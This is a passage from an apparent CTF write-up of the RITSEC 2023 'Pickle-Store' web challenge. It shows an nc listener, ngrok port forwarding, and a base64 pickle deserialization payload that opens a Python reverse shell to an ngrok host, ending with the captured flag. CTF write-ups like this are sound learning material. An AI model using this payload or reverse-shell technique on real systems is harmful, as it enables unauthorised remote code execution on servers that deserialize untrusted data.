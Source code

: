**Setup a `nc` listener:**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023)-[2023.04.02|13:13:43(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
```

**Since we don't have a VPN connection to the challenge's instance, we'll need to do port forwarding. I'll use `ngrok` to do that:**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/Pickle-Store)-[2023.04.02|13:06:54(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:11713 -> localhost:4444
[...]
```

**Send the payload:**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/Pickle-Store)-[2023.04.02|13:18:44(HKT)]
└> python3 solve.py
[*] Payload: gASVtAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjJlweXRob24zIC1jICdpbXBvcnQgb3MscHR5LHNvY2tldDtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKCIwLnRjcC5hcC5uZ3Jvay5pbyIsMTE3MTMpKTtbb3MuZHVwMihzLmZpbGVubygpLGYpZm9yIGYgaW4oMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJyCUhZRSlC4=
[*] Request result:

```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023)-[2023.04.02|13:13:43(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38340
user@NSJAIL:/home/user$
```

Boom! I'm in!

**Let's get the flag!**
```shell
user@NSJAIL:/home/user$ ls -lah /
total 64K
drwxr-xr-x 17 nobody nogroup 4.0K Apr  2 02:27 .
drwxr-xr-x 17 nobody nogroup 4.0K Apr  2 02:27 ..
lrwxrwxrwx  1 nobody nogroup    7 Mar  8 02:05 bin -> usr/bin
drwxr-xr-x  2 nobody nogroup 4.0K Apr 15  2020 boot
drwxr-xr-x  5 nobody nogroup  360 Apr  2 04:51 dev
drwxr-xr-x 35 nobody nogroup 4.0K Apr  2 02:26 etc
-rw-r--r--  1 nobody nogroup   28 Mar 30 04:04 flag
drwxr-xr-x  3 nobody nogroup 4.0K Apr  2 02:26 home
lrwxrwxrwx  1 nobody nogroup    7 Mar  8 02:05 lib -> usr/lib
lrwxrwxrwx  1 nobody nogroup    9 Mar  8 02:05 lib32 -> usr/lib32
lrwxrwxrwx  1 nobody nogroup    9 Mar  8 02:05 lib64 -> usr/lib64
lrwxrwxrwx  1 nobody nogroup   10 Mar  8 02:05 libx32 -> usr/libx32
drwxr-xr-x  2 nobody nogroup 4.0K Mar  8 02:06 media
drwxr-xr-x  2 nobody nogroup 4.0K Mar  8 02:06 mnt
drwxr-xr-x  2 nobody nogroup 4.0K Mar  8 02:06 opt
drwxr-xr-x  2 nobody nogroup 4.0K Apr 15  2020 proc
drwx------  3 nobody nogroup 4.0K Apr  2 02:26 root
drwxr-xr-x  5 nobody nogroup 4.0K Mar  8 02:09 run
lrwxrwxrwx  1 nobody nogroup    8 Mar  8 02:05 sbin -> usr/sbin
drwxr-xr-x  2 nobody nogroup 4.0K Mar  8 02:06 srv
drwxr-xr-x  2 nobody nogroup 4.0K Apr 15  2020 sys
drwxrwxrwt  2 user   user      80 Apr  2 05:18 tmp
drwxr-xr-x 13 nobody nogroup 4.0K Mar  8 02:06 usr
drwxr-xr-x 11 nobody nogroup 4.0K Mar  8 02:09 var
user@NSJAIL:/home/user$ cat /flag
RS{TH3_L345T_53CUR3_P1CKL3}
```